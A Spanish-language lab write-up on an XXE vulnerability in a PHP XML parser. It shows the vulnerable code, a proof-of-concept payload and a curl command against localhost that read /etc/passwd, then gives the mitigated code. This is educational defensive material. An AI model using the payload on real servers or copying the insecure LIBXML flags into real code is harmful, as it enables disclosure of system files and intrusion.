


# Vulnerabilidad: XML External Entity (XXE)

Este documento detalla el análisis, explotación y mitigación de una vulnerabilidad **XXE** en un analizador XML de PHP.

---

## 1. Descripción de la Vulnerabilidad

**XXE (XML External Entity)** es un fallo de seguridad que ocurre cuando una aplicación procesa datos XML de entrada que contienen referencias a entidades externas no confiables.

XML permite definir "Entidades" (variables) que el analizador sustituye por su valor al leer el documento. Si el analizador está mal configurado, un atacante puede definir una entidad que apunte a un archivo local del servidor (usando el esquema `file://`) o a un servicio interno de la red (SSRF).

### Impacto

* **Lectura de archivos arbitrarios:** Acceso a contraseñas, configuraciones o código fuente (ej. `/etc/passwd`).
* **Server-Side Request Forgery (SSRF):** Interacción con la red interna.
* **Denegación de Servicio (DoS):** Mediante ataques de expansión de entidades (Billion Laughs).

---

## 2. Análisis del Código Vulnerable

El script procesa datos XML enviados a través del cuerpo de la petición HTTP (`php://input`). El fallo reside en los parámetros pasados a la función `loadXML()`.

### Código Vulnerable

```php
<?php
$dom = new DOMDocument();
// VULNERABLE: LIBXML_NOENT obliga a PHP a procesar y sustituir las entidades externas.
$dom->loadXML(file_get_contents('php://input'), LIBXML_NOENT | LIBXML_DTDLOAD);
$parsed = simplexml_import_dom($dom);
echo $parsed;
?>
```

---

## 3. Proceso de Explotación (PoC)

Para explotar esta vulnerabilidad, enviamos una petición HTTP POST directa al servidor utilizando la herramienta de terminal `curl`.

El payload (la carga útil) es un documento XML malicioso donde definimos una entidad llamada `&xxe;` que instruye al analizador a leer el archivo `/etc/passwd` del sistema operativo.

### Payload XML

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### Ejecución del Ataque

Enviamos el payload con el siguiente comando:

```bash
curl -X POST -d '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>' http://localhost/xxe.php
```

### Resultado

El servidor procesa el XML, resuelve la entidad extrayendo el contenido de `/etc/passwd` y nos lo devuelve en la respuesta de la terminal.


---

## 4. Mitigación y Solución

Para solucionar la vulnerabilidad XXE, debemos configurar el analizador XML para que ignore y no procese las definiciones de entidades externas.

En este caso, la solución pasa por eliminar las flags inseguras (`LIBXML_NOENT` y `LIBXML_DTDLOAD`) que forzaban este comportamiento peligroso. Al utilizar el método `loadXML()` por defecto, PHP procesará el XML de forma segura.

### Código Mitigado

```php
<?php
// Crear un objeto DOMDocument
$dom = new DOMDocument();

// MITIGACIÓN PRINCIPAL:
// Eliminamos las flags peligrosas: LIBXML_NOENT y LIBXML_DTDLOAD.
// Al cargar el XML de forma estándar, PHP ignora las entidades externas por defecto.
$dom->loadXML(file_get_contents('php://input'));

// Convertir el XML a SimpleXMLElement (opcional)
$parsed = simplexml_import_dom($dom);

// Mostrar el resultado
echo $parsed;
?>
```

### Resultado

---

## 5. Validación de la Mitigación

Al lanzar nuevamente el mismo comando `curl` contra el código parcheado, el servidor ignora la entidad externa maliciosa, devolviendo una respuesta vacía o un error de análisis, protegiendo así los archivos del sistema.
